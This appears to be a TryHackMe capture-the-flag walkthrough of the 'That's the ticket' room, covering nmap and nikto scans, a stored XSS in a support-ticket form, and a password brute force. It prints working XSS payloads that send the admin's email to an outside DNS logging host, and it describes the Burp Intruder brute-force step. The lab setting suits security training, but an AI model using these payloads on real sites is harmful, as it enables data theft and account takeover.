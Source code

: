 # Walk through: That's the ticket

![](./assets/thmpage.png)


https://tryhackme.com/room/thatstheticket


IP: 10.10.28.159

## Nmap 

```bash
nmap -p- -v 10.10.28.159
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Nikto 

```bash
nikto -h 10.10.28.159
```

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.28.159
+ Target Hostname:    10.10.28.159
+ Target Port:        80
+ Start Time:         2021-06-09 20:45:01 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ 7889 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-06-09 20:48:15 (GMT1) (194 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


## Webpage

![](./assets/main.png)

1. Click register to register up a new account 

![](./assets/register.png)

2. After logging in we see the dashboard.

![](./assets/dashboard.png)

3. Cheking the webpage we see the message box is vunerable to XSS injection

![](./assets/createticket.png)

```js
</textarea><script>alert(1)</script>
```

#Room hint from tryhackme page
```markdown
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!
```

## DNS time!

Using the found xss bug we can use this to make callbacks to our machine and from the hint we got earlier. 
http://10.10.10.100 This is a DNS service that logs dns calls for us. We can also use a site like this, http://pingb.in/

Knowing we can use xss lets try a call back to the dns service. 

```js
</textarea><img/src=x onerror="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/"/>
```

This gets the call back four times, 3 from us and once from the server (admin is looking)

![](./assets/recievedadmin.png)

Now lets try to get some data back!

I tried cookies for a while but realised we only needed the admins email (always keep in mind the scope and spec!)

New payload

```js
</textarea><script>var i = new Image(); i.src="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

But this was not working, data was not coming back from the server.
After a little while, I decided to try a subdomain. 

```js
</textarea><script>var i = new Image(); i.src="//TEST.8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

This came back! 

![](./assets/test.png)

Now we can get the admins email address, but we will have to swap a few charaters to not break the url to the dns service (escaping chars like @.')

```js
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "8")
email = email.replace(".", "0")
document.location = "http://"+ email +".8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech"</script>
```
Press Create ticket and check the results on the service http://10.10.10.100

![](./assets/admin1.png)

We see the admin email and ours!

Now we can brute force the login page for the admins password as we have the email now.

Using Burp suite's intruder module we can select the password and then feed in a list of passwords on the payload's tab

![](./assets/login1.png)

After a short while we get a hit. 

![](./assets/brutewin.png)




And the final flag! 

![](./assets/flag1.png)


# Credits 

I hope you enjoyed this box as much as me.

Thanks to Adam for the box and good lessons! 



